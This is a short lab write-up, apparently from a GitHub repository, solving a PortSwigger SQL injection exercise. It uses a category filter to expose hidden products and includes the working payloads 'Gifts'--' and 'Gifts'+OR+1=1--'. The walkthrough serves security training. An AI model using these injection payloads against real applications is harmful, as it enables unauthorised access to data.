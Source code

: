 
# SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection

---------------------------------------------

When the buttons are clicked it is filtered by category and this is done with a GET request:





<img width="1874" height="805" alt="1" src="https://github.com/user-attachments/assets/aead71fd-92d8-4740-919a-bce004d46e57" />


Find the SQL Vulnerability exsist or not, with using " ' "(/filter?category=Gifts'):



<img width="1872" height="801" alt="2" src="https://github.com/user-attachments/assets/caef62c7-131a-42d5-85f0-ef7557f22b32" />


Using the following payload we get 4 items instead of only 3, because it shows both the released and the hidden one:

```
/filter?category=Gifts'-- 
```



<img width="1876" height="806" alt="3" src="https://github.com/user-attachments/assets/c742c56e-199d-42b3-9a6d-6ff6635508c1" />


To show all values we add OR 1=1 to display all categories:

```
/filter?category=Gifts'+OR+1=1--
```

<img width="1876" height="809" alt="4" src="https://github.com/user-attachments/assets/9666aca6-07ef-4e6c-ab0f-cb7ea7028390" />

